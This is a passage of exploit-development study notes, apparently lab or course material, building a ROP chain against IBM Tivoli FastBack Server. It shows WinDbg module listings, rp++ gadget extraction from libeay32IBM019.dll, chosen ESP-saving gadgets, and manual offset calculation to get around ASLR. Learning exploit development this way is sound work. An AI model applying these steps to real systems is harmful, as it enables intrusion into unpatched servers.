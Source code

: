 **Note: We will need to obtain the values in the stack of the parameters we want to replace so put unique eggs to them.**

Rembember that first we need to obtain the ESP value as when the exploit triggers, ESP points to the following ROP gadget after this list of values:
TBD AAAs + these values + rip + rops (ESP point to ROPs)

Let's use rp++ to find gadgets. Let's locate the DLL location with narly:
```
.load narly
0:077> !nmod
001b0000 001e3000 snclientapi          /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\snclientapi.dll
00400000 00c0c000 FastBackServer       /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\FastBackServer.exe
00c10000 00c3d000 libcclog             /SafeSEH OFF                C:\Program Files\Tivoli\TSM\FastBack\server\libcclog.dll
010d0000 01112000 NLS                  /SafeSEH ON  /GS            C:\Program Files\Tivoli\TSM\FastBack\Common\NLS.dll
01360000 0138b000 gsk8iccs             /SafeSEH OFF                C:\Program Files\ibm\gsk8\lib\gsk8iccs.dll
013c0000 013fa000 icclib019            /SafeSEH ON  /GS            C:\Program Files\ibm\gsk8\lib\N\icc\icclib\icclib019.dll
02f80000 03070000 libeay32IBM019       /SafeSEH OFF                C:\Program Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll
```

Once we know where it is, let's dump the ROP gadgets and 
```c
C:\Users\user\Desktop\rp-win>rp-win-x86.exe -f  "C:\Program Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll" -r 5 > rop.txt
```

Let's search for **push esp ;  pop REG ;** gadgets that end with ret, to try to store the ESP value in a register that we won't use (esi would be a good register as it is not modified by function calls and such).

We have two good gadgets: 
```cpp
0x100408d5: inc esi ; push esp ; pop esi ; ret  ;  (1 found)
0x100408d6: push esp ; pop esi ; ret  ;  (1 found)
```

Any of these two is valid. We obtain a copy of ESP in ESI.
**Note:** These address are static address, valid for the case that ASLR is disabled. But these address won't work with ASLR. We need to calculate the offset.
There are some tools that calculate the offset from the base address of the DLL. But we will do this manually.
When we execute rp++, it parses the DLL’s PE header to obtain the preferred base load address. This address will be written as the gadget address in the output file. We’ll use WinDbg to find the preferred base load address for libeay32IBM019.dll, and subtract the value of that address from each gadget we select in our output file.

Let's obtain the preferred base load address in WinDBG, stored at offset 0x34 from the module:
```cpp
0:077>  dd libeay32IBM019 + 3c L1
02f8003c  00000108

0:077> dd libeay32IBM019 + 108 + 34 L1
02f8013c  10000000
```
